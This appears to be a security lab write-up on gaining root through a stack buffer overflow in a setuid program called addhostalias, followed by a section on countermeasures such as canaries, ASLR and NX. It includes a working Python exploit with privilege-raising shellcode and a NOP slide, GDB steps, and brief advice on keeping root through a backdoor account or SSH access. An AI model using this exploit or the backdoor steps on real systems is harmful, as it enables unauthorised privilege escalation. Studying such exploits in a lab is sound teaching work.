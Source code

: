 # 1 - Gaining root access

For this first part, we will gain root access through a buffer overflow
vulnerability and a malicious shellcode. With a buffer overflow, a
string can overwrite some memory and become executable. While there
exists countermeasures, they aren't implemented here, hence our attack.

## 1.1 - Memory layout and vulnerability

When we look at the source code of `addhostalias.c`, the vulnerability
opportunity is very clear:

```c
void add_alias(char *ip, char *hostname, char *alias) {
    char formatbuffer[256];
    // ...
    sprintf(formatbuffer, "%s\t%s\t%s\n", ip, hostname, alias);
    // fopen
    // ...
}

int main(int argc, char *argv[]) {
    // ...
    add_alias(argv[IPADDR], argv[HOSTNAME], argv[ALIAS]);
    // ...
}
```

We're trying to insert in `formatbuffer` strings without checking their
length. The main function simply reads its arguments and forwards it to
`add_alias`, which will insert it in its buffer. The thing is, what if
our string become too long? If it hits 256 characters or more, we will
exit our buffer and write our string on top of our memory.

![Memory layout](./assets/memory_layout.png)

## 1.2 - Create the exploit

What we want to do is override the return address to jump back in the
buffer and execute the string as if it was some code.

Using GDB, we can verify that the stack is override. First, we run
`gdb /usr/bin/addhostalias`, then `break fopen` since it is the next
function call after our buffer overflow. Next,
```run `python -c "print '3'*50"` x y```. Finally, we can check the
stack content with `x/50x $sp`.

![Stack content](./assets/stack_content.png)

`3` encoded in ASCII is 0x33 in hexadecimal, hence all these 33.
However, using the memory layout above, we can see that the saved frame
pointer is 0x08048241 and the the return address 0x40007099. We can also
see that the location in the stack is near 0xbffffb40, so we will jump
a bit earlier to make sure we aim correctly. Because of some environment
variables, this address could indeed change slightly.

![Stack content with highlights](./assets/stack_content_highlighted.jpg)

Now, if we input 256 characters, plus 4 characters for the frame
pointer, we should be able to overwrite the return address to return in
the stack and execute our shellcode as if it was "real" code.

We will use a NOP slide to aim wide and then a payload, the shellcode.
This shellcode will set the real UID and the real group ID from the
EUID, effectively putting ourselves as root. This only works because the
sticky bit is enabled for this file; any program without the sticky bit
will (obviously) not be able to switch to root. Without these
instructions, the shell open would have the same rights as the user who
executed it, i.e. not root, which isn't really interresting.

The following script will send the right shellcode for us, used like
this: `addhostalias $(python exploit.py)`

```python
shellcode = ("\xb9\xff\xff\xff\xff\x31\xc0\xb0\x31\xcd\x80"
            +"\x89\xc3\x31\xc0\xb0\x46\xcd\x80\x31\xc0\xb0"
            +"\x32\xcd\x80\x89\xc3\xb0\x31\xb0\x47\xcd\x80"
            +"\x31\xc0\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68"
            +"\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0"
            +"\x0b\xcd\x80\x31\xc0\x40\xcd\x80\x90\x90\x90"
            +"\x90\x90\x90\x90\x90\x90\x90\x90\x90")

nopSlide = "\x90" * (256 - len(shellcode))
newAddr = "\xe0\xfa\xff\xbf"

print "x", "y", nopSlide + shellcode + newAddr
```

And, with it, we can finally get root access.

![Root access](./assets/root_access.png)

## 1.3 - Permanent root access

Althouh this root access is limited in time, we can easily make it
permanent with a backdoor. With root access, you can create a new user
with root access and a known password, expose a SSH access, create a
file with sticky flag, etc.

# 2 - Countermeasures

There are several countermeasures to avoid these buffer overflows.

At a language level, some languages are less affected than other by
buffer overflows. Higher-level languages (Java, C#, Python...) usually
checks for out-of-bounds access, thus avoiding buffer overflows as
opposed to lower-level languages (mainly C and C++). It should be noted
though that modern low-level languages like Rust tends to think more
carefully about buffer overflows using "smarter" memory management.

If C / C++ still need to be used, most of the vulnerable standard
library functions have a safer equivalent: `fgets` instead of `gets`,
`strcpy_s` or `strlcpy` over `strcpy`, etc.

Programs can also be compiled with constant values that shouldn't
normally be override. These constants are called canaries, and while
they don't technically prevent buffer overflows they still make it
harder, because now you need to aim more precisely and override this
canary with the right value.

Obfuscation can also be used at compile-time by shuffling around
variable declaration, thus making the original source code less useful
for stack overflow documentation purpose.

On an OS point of view, ASLR can be used to randomize the address space.
The stack can also be marked as non executable with the NX bit. With
these two features, buffer overflows become really limited.Still, return
to libc attacks can be achieved, by jumping back to other legitimate
functions.
